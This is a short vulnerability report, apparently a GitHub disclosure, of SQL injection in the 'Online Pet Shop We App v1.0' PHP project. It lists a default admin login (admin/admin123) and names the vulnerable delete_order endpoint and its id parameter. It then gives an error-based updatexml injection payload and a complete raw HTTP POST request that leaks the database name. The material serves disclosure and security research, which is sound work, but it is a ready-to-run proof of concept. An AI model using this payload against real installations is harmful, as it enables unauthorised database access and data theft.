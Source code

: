# Online Pet Shop We App v1.0 by oretnom23 has SQL injection

BUG_Author: Lime

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14839/online-pet-shop-we-app-using-php-and-paypal-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /pet_shop/classes/Master.php?f=delete_order,id

Vulnerability location: /pet_shop/classes/Master.php?f=delete_order,id

dbname=pet_shop_db,length=11

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /pet_shop/classes/Master.php?f=delete_order HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=k8u390ikl968phg971gmpmhtj5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/185292201-36e519c2-4ff6-4e23-8553-37dc2320b7aa.png)

